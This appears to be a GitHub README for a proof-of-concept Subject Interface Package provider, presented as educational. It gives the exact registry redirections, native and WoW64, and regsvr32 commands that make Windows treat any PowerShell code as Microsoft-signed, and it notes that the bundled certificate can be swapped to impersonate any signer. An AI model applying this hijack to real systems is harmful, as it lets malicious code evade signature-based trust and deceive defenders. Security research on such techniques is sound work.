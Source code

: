 # PoCSubjectInterfacePackage
A PoC subject interface package (SIP) provider designed to educate about the required components of a SIP provider.

This PoC is designed to serve as a basic SIP in addition to a payload for hijacking existing SIPs using the AutoApproveHash and GetLegitMSSignature functions.
For example, if you wanted all PowerShell code to return a valid MS cert regardless of whether they were signed by MS, you would redirect the following:

### Direct PowerShell SIP hijack (Native):
* `HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\Dll (REG_SZ) - C:\path\to\MySip.dll`
* `HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\FuncName (REG_SZ) - AutoApproveHash`
* `HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\Dll (REG_SZ) - C:\path\to\MySip.dll`
* `HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\FuncName (REG_SZ) - GetLegitMSSignature`


### PowerShell SIP hijack (WoW64):
* `HKLM\SOFTWARE\WOW6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\Dll (REG_SZ) - C:\path\to\MySip_x86.dll`
* `HKLM\SOFTWARE\WOW6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\FuncName (REG_SZ) - AutoApproveHash`
* `HKLM\SOFTWARE\WOW6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\Dll (REG_SZ) - C:\path\to\MySip_x86.dll`
* `HKLM\SOFTWARE\WOW6432Node\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllGetSignedDataMsg\{603BCC1F-4B59-4E08-B724-D2C6297EF351}\FuncName (REG_SZ) - GetLegitMSSignature`

A normal installation of this SIP is performed as follows (from an elevated prompt):

`regsvr32 C:\path\to\MySip.dll`

Upon installing this SIP via regsvr32, any file you create with the .foo, .bar, or .baz file extension
will validate properly with the embedded certificate.

A normal uninstallation of this SIP is performed as follows (from an elevated prompt):

`regsvr32 /u C:\path\to\MySip.dll`

Note: The included resource (MS_cert.bin) can be replaced with any Authenticode certificate
(which includes any signed .cat file) thus allowing you to be whomever you want.